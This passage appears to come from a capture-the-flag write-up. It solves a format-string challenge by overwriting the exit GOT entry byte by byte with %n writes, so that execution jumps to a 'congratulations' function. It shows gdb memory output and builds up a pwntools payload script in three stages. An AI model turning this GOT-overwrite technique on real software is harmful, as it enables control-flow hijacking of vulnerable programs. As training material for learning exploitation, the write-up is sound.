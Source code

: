 ```python

print(buff)
```

```shell
(gdb) x 0x080497e4
0x80497e4 <exit@got.plt>:       0x00000103
```

2. When `changeme+1` is getting overwritten as `0x00000103` but our target is now `0x00008503` matching `0x08048503`. We could try pushing few more junk characters and bump `0x1` to `0x85`. So, we now require `0x85` - `0x1` i.e in decimal 132 characters to be written (including `%n`)

```python
from pwn import *

exit = 0x080497e4
congratulations = 0x08048503

buff= ""
buff += p32(exit+0)
buff += p32(exit+1)
buff += p32(exit+2)
buff += p32(exit+3)

buff += '%x ' * 11      # offset to first byte

buff += 'A' * 178       # JUNK
buff += "%n"            # write to first byte

buff += 'A' * 130       # JUNK
buff += "%n"            # write to second byte

print(buff)
```

iterating the same process for `changeme+2` and `changeme+3` yields the following payload,

```python
from pwn import *

exit = 0x080497e4
congratulations = 0x08048503

buff= ""
buff += p32(exit+0)
buff += p32(exit+1)
buff += p32(exit+2)
buff += p32(exit+3)

buff += '%x ' * 11      # offset to first byte

buff += 'A' * 178       # JUNK
buff += "%n"            # write to first byte

buff += 'A' * 130       # JUNK
buff += "%n"            # write to second byte

buff += 'A' * 127       # JUNK
buff += "%n"            # write to third byte

buff += 'A' * 4         # JUNK
buff += "%n"            # write to forth byte

print(buff)
```
